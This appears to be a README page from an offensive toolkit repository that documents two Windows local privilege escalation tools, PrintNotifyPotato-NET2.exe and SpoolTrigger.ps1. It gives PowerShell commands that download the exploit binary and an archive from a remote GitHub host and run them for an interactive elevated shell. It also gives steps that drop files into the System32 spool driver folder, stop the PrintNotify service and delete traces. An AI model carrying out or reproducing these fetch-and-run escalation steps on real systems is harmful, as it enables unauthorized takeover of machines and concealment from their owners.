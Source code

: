 ## PrintNotifyPotato-NET2.exe

|Function name|Description|Privileges|Screenshot|
|---|---|---|---|
|PrintNotifyPotato-NET2|Local privilege escalation|Administrator|[PrintNotifyPotato](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/LPE/LPE.png)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/LPE/PrintNotifyPotato-NET2.exe" -OutFile "PrintNotifyPotato-NET2.exe"
```

<br />

**execute:**
```powershell
.\PrintNotifyPotato-NET2.exe whoami
.\PrintNotifyPotato-NET2.exe cmd interactive
```

<br />

## SpoolTrigger.ps1

|Function name|Description|Privileges|Screenshot|Credits|
|---|---|---|---|---|
|SpoolTrigger|Local privilege escalation|Administrator|[SpoolTrigger](https://user-images.githubusercontent.com/23490060/222120179-ae2e2b14-fe3e-453e-a494-dcf1c84dd270.jpg)|@404death|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/LPE/bin.zip" -OutFile "$Env:TMP\bin.zip"
```

<br />

**execute:**
```powershell
# Expand ZIP archive
Expand-Archive -Path "$Env:TMP\bin.Zip" -DestinationPath "$Env:TMP" -force
cd "$Env:TMP\bin"

# Move files to comrrespondent directory
Move-Item -Path "*" -Destination "$Env:WINDIR\System32\spool\drivers\x64\3\" -Force
cd "$Env:WINDIR\System32\spool\drivers\x64\3\bin"
.\SpoolTrigger.ps1
whoami

# CleanUp
Stop-Service -Name "PrintNotify" -Force
Remove-Item -Path "$Env:TMP\bin" -Force
Remove-Item -Path "$Env:TMP\bin.zip" -Force
Remove-Item -Path "$Env:WINDIR\System32\spool\drivers\x64\3\bin" -Force
```
